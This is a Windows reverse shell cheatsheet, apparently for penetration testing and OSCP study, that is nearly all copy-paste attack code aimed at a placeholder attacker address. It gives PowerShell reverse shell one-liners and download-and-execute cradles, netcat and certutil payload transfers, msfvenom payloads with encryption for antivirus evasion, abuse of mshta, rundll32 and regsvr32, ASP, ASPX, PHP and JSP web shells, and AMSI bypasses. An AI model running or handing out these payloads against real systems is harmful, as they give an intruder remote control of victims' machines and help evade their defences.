

## TL;DR

Once RCE is established on a Windows target, the next step is upgrading to an **interactive reverse shell**. This cheatsheet provides every practical reverse shell method for Windows — from legacy Win7 x86 to modern Win11 x64 — organized by technique, architecture, and OS compatibility.

**Quick selection guide:**

| Situation | Recommended Method |
|---|---|
| PowerShell available (Win7 SP1+) | PowerShell TCP one-liner |
| PowerShell blocked / constrained | `certutil` + precompiled `nc.exe` |
| Webshell / blind RCE only | `mshta` or `rundll32` one-liner |
| No outbound TCP allowed | PowerShell reverse shell over HTTP/S |
| AV/EDR active | msfvenom encrypted payload or custom C# |
| Fully patched Win10/11 with Defender | AMSI bypass + obfuscated PowerShell |

---

## Listener Setup (Attacker Side)

Always start your listener **before** triggering the reverse shell.

```bash
# Basic netcat listener
nc -lvnp 4444

# rlwrap for readline support (arrow keys, history)
rlwrap -cAr nc -lvnp 4444

# Metasploit multi/handler (for msfvenom payloads)
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/shell_reverse_tcp; set LHOST <KALI_IP>; set LPORT 4444; run"

# Metasploit meterpreter handler
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST <KALI_IP>; set LPORT 4444; run"

# socat (encrypted TLS listener)
socat -d -d OPENSSL-LISTEN:4444,cert=shell.pem,verify=0,fork STDOUT
```

---

## OS & Tool Compatibility Matrix

### Built-in Tools by Windows Version

| Tool / Feature | Win7 SP1 | Win8/8.1 | Win10 (1507–1809) | Win10 (1903+) | Win11 | Arch |
|---|---|---|---|---|---|---|
| `cmd.exe` | Yes | Yes | Yes | Yes | Yes | Both |
| PowerShell 2.0 | Yes | Yes | Dep | Dep | Dep | Both |
| PowerShell 5.1 | Update | Yes | Yes | Yes | Yes | Both |
| `certutil.exe` | Yes | Yes | Yes | Yes | Yes | Both |
| `bitsadmin.exe` | Yes | Yes | Yes | Yes | Yes | Both |
| `mshta.exe` | Yes | Yes | Yes | Yes | Yes | Both |
| `rundll32.exe` | Yes | Yes | Yes | Yes | Yes | Both |
| `regsvr32.exe` | Yes | Yes | Yes | Yes | Yes | Both |
| `curl.exe` | No | No | No | Yes | Yes | Both |
| `ssh.exe` (OpenSSH) | No | No | 1803+ | Yes | Yes | x64 |
| WDAC / AMSI | No | No | Yes | Yes | Yes | Both |
| Constrained Language Mode | No | Rare | Common | Common | Common | Both |

> **Dep** = Deprecated but still present. PowerShell 2.0 can be removed via `Disable-WindowsOptionalFeature`.

### Architecture Notes

| Architecture | System32 Path | PowerShell Path |
|---|---|---|
| x86 (32-bit OS) | `C:\Windows\System32\` | `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe` |
| x64 (64-bit OS, 64-bit process) | `C:\Windows\System32\` | `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe` |
| x64 (64-bit OS, 32-bit process via WoW64) | `C:\Windows\SysWOW64\` | `C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe` |
| x64 (access 64-bit from 32-bit) | `C:\Windows\Sysnative\` | `C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe` |

> **OSCP tip:** If you have a 32-bit webshell on a 64-bit OS, use `C:\Windows\Sysnative\` to access 64-bit binaries. This is critical for running 64-bit payloads or accessing the real `System32`.

---

## 1. PowerShell Reverse Shells

### 1a. Basic TCP Reverse Shell (One-Liner)

**Compatibility:** Win7 SP1+ (PS 2.0+), x86/x64

```powershell
powershell -nop -ep bypass -c "$c=New-Object System.Net.Sockets.TCPClient('<KALI_IP>',4444);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0,$i);$r=(iex $d 2>&1|Out-String);$t=$r+'PS '+(pwd).Path+'> ';$m=([text.encoding]::ASCII).GetBytes($t);$s.Write($m,0,$m.Length);$s.Flush()};$c.Close()"
```

**Shortened version (for limited command length):**

```powershell
powershell -nop -c "$c=New-Object Net.Sockets.TCPClient('<KALI_IP>',4444);$s=$c.GetStream();$b=New-Object byte[] 65535;while(($i=$s.Read($b,0,$b.Length))-ne 0){$d=([text.encoding]::ASCII).GetString($b,0,$i);$r=(iex $d 2>&1|Out-String);$s.Write(([text.encoding]::ASCII).GetBytes($r),0,$r.Length)}"
```

### 1b. PowerShell Base64 Encoded (Bypass Simple Filters)

**Compatibility:** Win7 SP1+, x86/x64

Generate on attacker machine:

```bash
# Generate Base64 encoded reverse shell command
REVERSE_SHELL='$c=New-Object System.Net.Sockets.TCPClient("<KALI_IP>",4444);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object System.Text.ASCIIEncoding).GetString($b,0,$i);$r=(iex $d 2>&1|Out-String);$t=$r+"PS "+(pwd).Path+"> ";$m=([text.encoding]::ASCII).GetBytes($t);$s.Write($m,0,$m.Length);$s.Flush()};$c.Close()'

echo -n "$REVERSE_SHELL" | iconv -t UTF-16LE | base64 -w 0
```

Execute on target:

```cmd
powershell -nop -ep bypass -enc <BASE64_STRING>
```

### 1c. PowerShell Download-Execute (Cradle)

**Compatibility:** Win7 SP1+, x86/x64

Host `shell.ps1` on attacker:

```powershell
# shell.ps1 (on attacker web server)
$c = New-Object System.Net.Sockets.TCPClient('<KALI_IP>',4444)
$s = $c.GetStream()
[byte[]]$b = 0..65535|%{0}
while(($i = $s.Read($b, 0, $b.Length)) -ne 0){
    $d = (New-Object System.Text.ASCIIEncoding).GetString($b, 0, $i)
    $r = (iex $d 2>&1 | Out-String)
    $t = $r + 'PS ' + (pwd).Path + '> '
    $m = ([text.encoding]::ASCII).GetBytes($t)
    $s.Write($m, 0, $m.Length)
    $s.Flush()
}
$c.Close()
```

Download cradles (execute on target):

```powershell
# Method 1: IEX + WebClient (most common)
powershell -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')"

# Method 2: IEX + Invoke-WebRequest (PS 3.0+ / Win8+)
powershell -nop -ep bypass -c "IEX(Invoke-WebRequest -Uri 'http://<KALI_IP>/shell.ps1' -UseBasicParsing).Content"

# Method 3: IEX + curl alias (Win10 1903+ native curl)
powershell -nop -ep bypass -c "IEX(curl http://<KALI_IP>/shell.ps1 -UseBasicParsing).Content"
```

### 1d. PowerShell via PowerCat

**Compatibility:** Win7 SP1+, x86/x64

```powershell
# Download and execute powercat
powershell -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/powercat.ps1'); powercat -c <KALI_IP> -p 4444 -e cmd.exe"

# With relay (double hop)
powercat -c <KALI_IP> -p 4444 -r tcp:<INTERNAL_TARGET>:445
```

### 1e. Nishang Invoke-PowerShellTcp

**Compatibility:** Win7 SP1+, x86/x64

```powershell
powershell -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress <KALI_IP> -Port 4444"
```

### 1f. ConPty Shell (Fully Interactive)

**Compatibility:** Win10 1809+, x64

Provides a fully interactive shell with proper TTY support:

```powershell
IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/Invoke-ConPtyShell.ps1')
Invoke-ConPtyShell -RemoteIp <KALI_IP> -RemotePort 4444 -Rows 24 -Cols 80
```

Listener (attacker side — use `stty` for proper sizing):

```bash
stty raw -echo; (stty size; cat) | nc -lvnp 4444
```

---

## 2. Precompiled Binary Reverse Shells

### 2a. Netcat (nc.exe / ncat.exe)

**Compatibility:** All Windows versions, x86/x64 (depends on compiled binary)

```cmd
:: Traditional netcat
nc.exe <KALI_IP> 4444 -e cmd.exe
nc.exe <KALI_IP> 4444 -e powershell.exe

:: ncat (Nmap's netcat — supports SSL)
ncat.exe <KALI_IP> 4444 -e cmd.exe --ssl
```

**Transfer nc.exe to target:**

```cmd
:: certutil (Win7+)
certutil -urlcache -split -f http://<KALI_IP>/nc.exe C:\Temp\nc.exe

:: bitsadmin (Win7+)
bitsadmin /transfer job http://<KALI_IP>/nc.exe C:\Temp\nc.exe

:: PowerShell (Win7 SP1+)
powershell -c "(New-Object Net.WebClient).DownloadFile('http://<KALI_IP>/nc.exe','C:\Temp\nc.exe')"

:: curl (Win10 1903+)
curl http://<KALI_IP>/nc.exe -o C:\Temp\nc.exe

:: SMB share (no download needed)
\\<KALI_IP>\share\nc.exe <KALI_IP> 4444 -e cmd.exe
```

**Pre-compiled nc.exe locations on Kali:**

```bash
# x86
locate nc.exe | grep win
/usr/share/windows-resources/binaries/nc.exe          # x86 (32-bit)

# x64 — compile or use ncat from nmap
apt install ncat
# Or cross-compile from source
```

### 2b. msfvenom Payloads

**The most reliable method for generating architecture-specific payloads.**

#### Staged vs Stageless

| Type | Flag | Size | Compatibility | Use Case |
|---|---|---|---|---|
| Staged | `shell/reverse_tcp` | ~3 KB | Requires Metasploit handler | Smaller payload, good for limited buffer |
| Stageless | `shell_reverse_tcp` | ~70 KB | Works with `nc` listener | Larger but self-contained |

#### x86 (32-bit) Payloads

```bash
# cmd.exe reverse shell (stageless) — works with nc listener
msfvenom -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f exe -o shell32.exe

# cmd.exe reverse shell (staged) — requires Metasploit handler
msfvenom -p windows/shell/reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f exe -o shell32_staged.exe

# meterpreter (staged)
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f exe -o met32.exe

# DLL payload (for DLL injection / hijacking)
msfvenom -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f dll -o payload32.dll

# MSI payload (for AlwaysInstallElevated)
msfvenom -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f msi -o shell32.msi

# HTA payload
msfvenom -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f hta-psh -o shell.hta

# PowerShell command
msfvenom -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f psh-cmd -o shell.bat

# ASP webshell
msfvenom -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f asp -o shell.asp

# ASPX webshell
msfvenom -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f aspx -o shell.aspx

# WAR (Tomcat)
msfvenom -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f war -o shell.war
```

#### x64 (64-bit) Payloads

```bash
# cmd.exe reverse shell (stageless) — works with nc listener
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f exe -o shell64.exe

# cmd.exe reverse shell (staged) — requires Metasploit handler
msfvenom -p windows/x64/shell/reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f exe -o shell64_staged.exe

# meterpreter (staged)
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f exe -o met64.exe

# DLL payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f dll -o payload64.dll

# MSI payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f msi -o shell64.msi

# PowerShell command (base64 encoded)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f psh -o shell64.ps1

# EXE-Service (for service exploitation — proper ServiceMain)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f exe-service -o svc64.exe

# Raw shellcode (for injection)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f raw -o sc64.bin
```

#### Encoder / Evasion Options

```bash
# x86 with shikata_ga_nai encoder (basic AV evasion)
msfvenom -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe -o encoded32.exe

# x64 with XOR encoder
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -e x64/xor_dynamic -f exe -o encoded64.exe

# Encrypt payload (more effective than encoding)
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<KALI_IP> LPORT=4444 --encrypt aes256 --encrypt-key <KEY> -f exe -o encrypted64.exe
```

---

## 3. Native Windows Binary Abuse (LOLBins)

These methods use **built-in Windows binaries** — no file transfer needed for the initial trigger.

### 3a. mshta.exe (Microsoft HTML Application Host)

**Compatibility:** Win7+, x86/x64

```cmd
:: One-liner — HTA downloads and executes payload from attacker
mshta http://<KALI_IP>/shell.hta

:: Inline VBScript reverse shell
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -nop -ep bypass -c """"IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')"""" "", 0:close")
```

**Host HTA payload (attacker side):**

```bash
# Generate with msfvenom
msfvenom -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f hta-psh -o shell.hta

# Serve
python3 -m http.server 80
```

### 3b. rundll32.exe

**Compatibility:** Win7+, x86/x64

```cmd
:: Execute JavaScript via rundll32
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";document.write();h=new%20ActiveXObject("WScript.Shell").Run("powershell -nop -ep bypass -c IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')")

:: Load DLL from SMB share
rundll32.exe \\<KALI_IP>\share\payload.dll,EntryPoint
```

### 3c. regsvr32.exe (Squiblydoo)

**Compatibility:** Win7+, x86/x64 — **Bypasses AppLocker default rules**

```cmd
:: Download and execute SCT file from remote server
regsvr32 /s /n /u /i:http://<KALI_IP>/shell.sct scrobj.dll
```

**SCT payload (shell.sct on attacker):**

```xml
<?XML version="1.0"?>
<scriptlet>
<registration
    description="Pentest"
    progid="Pentest"
    version="1.00"
    classid="{AAAA-BBBB-CCCC-DDDD}"
    remotable="true">
</registration>
<script language="JScript">
<![CDATA[
    var r = new ActiveXObject("WScript.Shell").Run("powershell -nop -ep bypass -c IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')");
]]>
</script>
</scriptlet>
```

### 3d. certutil.exe (Download + Decode)

**Compatibility:** Win7+, x86/x64

```cmd
:: Download payload
certutil -urlcache -split -f http://<KALI_IP>/shell.exe C:\Temp\shell.exe

:: Execute
C:\Temp\shell.exe

:: Alternative: decode Base64 payload
certutil -decode encoded.txt C:\Temp\shell.exe

:: Combined: download encoded, decode, execute
certutil -urlcache -split -f http://<KALI_IP>/shell.b64 C:\Temp\shell.b64 && certutil -decode C:\Temp\shell.b64 C:\Temp\shell.exe && C:\Temp\shell.exe
```

### 3e. bitsadmin.exe

**Compatibility:** Win7+, x86/x64

```cmd
:: Download file
bitsadmin /transfer job /download /priority high http://<KALI_IP>/shell.exe C:\Temp\shell.exe

:: Execute
C:\Temp\shell.exe
```

### 3f. cscript / wscript (VBS/JS)

**Compatibility:** Win7+, x86/x64

**VBScript reverse shell (shell.vbs):**

```vbscript
Set objShell = CreateObject("WScript.Shell")
objShell.Run "powershell -nop -ep bypass -c ""IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')""", 0, False
```

```cmd
cscript C:\Temp\shell.vbs
wscript C:\Temp\shell.vbs
```

**JScript reverse shell (shell.js):**

```javascript
var shell = new ActiveXObject("WScript.Shell");
shell.Run("powershell -nop -ep bypass -c \"IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')\"", 0, false);
```

```cmd
cscript C:\Temp\shell.js
wscript C:\Temp\shell.js
```

### 3g. MSIEXEC

**Compatibility:** Win7+, x86/x64

```cmd
:: Execute MSI from remote URL
msiexec /quiet /qn /i http://<KALI_IP>/shell.msi

:: Execute MSI from local path
msiexec /quiet /qn /i C:\Temp\shell.msi
```

---

## 4. Web-Based Reverse Shells

### 4a. ASP / ASPX (IIS)

**ASP (Classic — x86):**

```asp
<%
Set objShell = Server.CreateObject("WScript.Shell")
Set cmd = objShell.Exec("cmd /c powershell -nop -ep bypass -c ""IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')""")
%>
```

**ASPX (.NET — x86/x64):**

```aspx
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Diagnostics" %>
<%
Process p = new Process();
p.StartInfo.FileName = "cmd.exe";
p.StartInfo.Arguments = "/c powershell -nop -ep bypass -c \"IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')\"";
p.StartInfo.UseShellExecute = false;
p.Start();
%>
```

### 4b. PHP (XAMPP / Custom)

```php
<?php system("powershell -nop -ep bypass -c \"IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')\""); ?>
```

### 4c. JSP (Tomcat)

```jsp
<%
Runtime rt = Runtime.getRuntime();
Process p = rt.exec("cmd /c powershell -nop -ep bypass -c IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')");
%>
```

---

## 5. SSH Reverse Tunnel (Win10 1803+)

**Compatibility:** Win10 1803+, x64 (OpenSSH client built-in)

```cmd
:: Reverse SSH tunnel — opens port 4444 on attacker that forwards to target's cmd
ssh -R 4444:127.0.0.1:445 attacker@<KALI_IP>

:: Remote port forward to expose a service
ssh -N -R 9999:127.0.0.1:3389 attacker@<KALI_IP>
```

---

## 6. AMSI Bypass + Reverse Shell (Win10/11)

On modern Windows with **AMSI (Antimalware Scan Interface)** enabled, PowerShell commands are scanned before execution. Bypass AMSI first, then execute the reverse shell.

### Common AMSI Bypasses

```powershell
# Reflection bypass (commonly patched — obfuscate as needed)
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

# Obfuscated variant
$a=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUtils');$f=$a.GetField('am'+'siInitFailed','NonPublic,Static');$f.SetValue($null,$true)

# PowerShell 2.0 downgrade (bypasses AMSI entirely — if PS 2.0 still installed)
powershell -version 2 -c "IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')"
```

### Combined: AMSI Bypass + Reverse Shell

```powershell
powershell -nop -ep bypass -c "$a=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUtils');$f=$a.GetField('am'+'siInitFailed','NonPublic,Static');$f.SetValue($null,$true);IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')"
```

---

## 7. WoW64 — Running 64-bit Shell from 32-bit Process

When exploiting a 32-bit web application on a 64-bit OS, you may be running in a WoW64 (32-bit) process. To get a native 64-bit shell:

```cmd
:: From 32-bit process, access 64-bit PowerShell via Sysnative
C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')"

:: From 32-bit process, run 64-bit cmd.exe
C:\Windows\Sysnative\cmd.exe /c C:\Temp\shell64.exe

:: From 32-bit process, run 64-bit nc.exe
C:\Windows\Sysnative\cmd.exe /c C:\Temp\nc64.exe <KALI_IP> 4444 -e cmd.exe
```

### Architecture Detection

```cmd
:: Check current process architecture
echo %PROCESSOR_ARCHITECTURE%
:: AMD64 = 64-bit process
:: x86   = 32-bit process (may be WoW64 on 64-bit OS)

:: Check OS architecture
wmic os get osarchitecture
:: 64-bit
```

```powershell
# PowerShell — check if running in WoW64
[Environment]::Is64BitProcess    # True = 64-bit, False = 32-bit (WoW64)
[Environment]::Is64BitOperatingSystem  # True = 64-bit OS
```

---

## 8. Shell Upgrade & Stabilization

After obtaining a basic reverse shell, upgrade it for better usability.

### cmd.exe → PowerShell

```cmd
powershell -nop -ep bypass
```

### Basic Shell → Interactive Shell (rlwrap)

```bash
# On attacker (before catching shell)
rlwrap -cAr nc -lvnp 4444
```

### ConPty Full Interactive Shell (Win10 1809+)

```powershell
# On target (after initial shell)
IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/Invoke-ConPtyShell.ps1')
Invoke-ConPtyShell -RemoteIp <KALI_IP> -RemotePort 4445 -Rows 24 -Cols 80
```

```bash
# On attacker
stty raw -echo; (stty size; cat) | nc -lvnp 4445
```

---

## Payload Compatibility Matrix

### msfvenom Payload by OS & Architecture

| OS | Arch | Stageless Payload | Staged Payload |
|---|---|---|---|
| Win7 SP1 | x86 | `windows/shell_reverse_tcp` | `windows/shell/reverse_tcp` |
| Win7 SP1 | x64 | `windows/x64/shell_reverse_tcp` | `windows/x64/shell/reverse_tcp` |
| Win8/8.1 | x86 | `windows/shell_reverse_tcp` | `windows/shell/reverse_tcp` |
| Win8/8.1 | x64 | `windows/x64/shell_reverse_tcp` | `windows/x64/shell/reverse_tcp` |
| Win10 | x86 | `windows/shell_reverse_tcp` | `windows/shell/reverse_tcp` |
| Win10 | x64 | `windows/x64/shell_reverse_tcp` | `windows/x64/shell/reverse_tcp` |
| Win11 | x64 | `windows/x64/shell_reverse_tcp` | `windows/x64/shell/reverse_tcp` |
| Server 2008 R2 | x64 | `windows/x64/shell_reverse_tcp` | `windows/x64/shell/reverse_tcp` |
| Server 2012/R2 | x64 | `windows/x64/shell_reverse_tcp` | `windows/x64/shell/reverse_tcp` |
| Server 2016 | x64 | `windows/x64/shell_reverse_tcp` | `windows/x64/shell/reverse_tcp` |
| Server 2019 | x64 | `windows/x64/shell_reverse_tcp` | `windows/x64/shell/reverse_tcp` |
| Server 2022 | x64 | `windows/x64/shell_reverse_tcp` | `windows/x64/shell/reverse_tcp` |

### Format by Use Case

| Scenario | msfvenom `-f` format | Output |
|---|---|---|
| Standalone executable | `exe` | `.exe` file |
| Service exploit (proper ServiceMain) | `exe-service` | `.exe` file |
| DLL injection / hijacking | `dll` | `.dll` file |
| AlwaysInstallElevated | `msi` | `.msi` file |
| IIS Classic ASP | `asp` | `.asp` file |
| IIS .NET | `aspx` | `.aspx` file |
| Tomcat | `war` | `.war` file |
| HTA (mshta.exe) | `hta-psh` | `.hta` file |
| PowerShell script | `psh` | `.ps1` file |
| PowerShell one-liner (cmd) | `psh-cmd` | `.bat` file |
| Raw shellcode | `raw` | `.bin` file |
| C shellcode array | `c` | C source |
| C# shellcode array | `csharp` | C# source |
| Python shellcode | `python` | Python source |

---

## Decision Flowchart



---

## Quick Reference — Copy-Paste Commands

### Attacker Setup

```bash
# 1. Start web server to host payloads
python3 -m http.server 80

# 2. Start SMB server (optional)
impacket-smbserver share . -smb2support

# 3. Start listener
rlwrap -cAr nc -lvnp 4444
```

### Target Execution (Pick One)

```cmd
:: PowerShell one-liner (Win7+)
powershell -nop -ep bypass -c "$c=New-Object Net.Sockets.TCPClient('<KALI_IP>',4444);$s=$c.GetStream();$b=New-Object byte[] 65535;while(($i=$s.Read($b,0,$b.Length))-ne 0){$d=([text.encoding]::ASCII).GetString($b,0,$i);$r=(iex $d 2>&1|Out-String);$s.Write(([text.encoding]::ASCII).GetBytes($r),0,$r.Length)}"

:: PowerShell download cradle (Win7+)
powershell -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')"

:: certutil + nc.exe (Win7+, all arch)
certutil -urlcache -split -f http://<KALI_IP>/nc.exe C:\Temp\nc.exe && C:\Temp\nc.exe <KALI_IP> 4444 -e cmd.exe

:: mshta (Win7+, no file write)
mshta http://<KALI_IP>/shell.hta

:: regsvr32 Squiblydoo (Win7+, bypasses AppLocker)
regsvr32 /s /n /u /i:http://<KALI_IP>/shell.sct scrobj.dll

:: msiexec (Win7+, remote MSI)
msiexec /quiet /qn /i http://<KALI_IP>/shell.msi

:: 64-bit from 32-bit process (Sysnative)
C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')"
```

---

## References

- Nishang: [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)
- PowerCat: [https://github.com/besimorhino/powercat](https://github.com/besimorhino/powercat)
- ConPtyShell: [https://github.com/antonioCoco/ConPtyShell](https://github.com/antonioCoco/ConPtyShell)
- PayloadsAllTheThings — Reverse Shell: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- LOLBAS Project: [https://lolbas-project.github.io/](https://lolbas-project.github.io/)
- RevShells Generator: [https://www.revshells.com/](https://www.revshells.com/)
- MITRE ATT&CK T1059 — Command and Scripting Interpreter: [https://attack.mitre.org/techniques/T1059/](https://attack.mitre.org/techniques/T1059/)
- MITRE ATT&CK T1218 — System Binary Proxy Execution: [https://attack.mitre.org/techniques/T1218/](https://attack.mitre.org/techniques/T1218/)
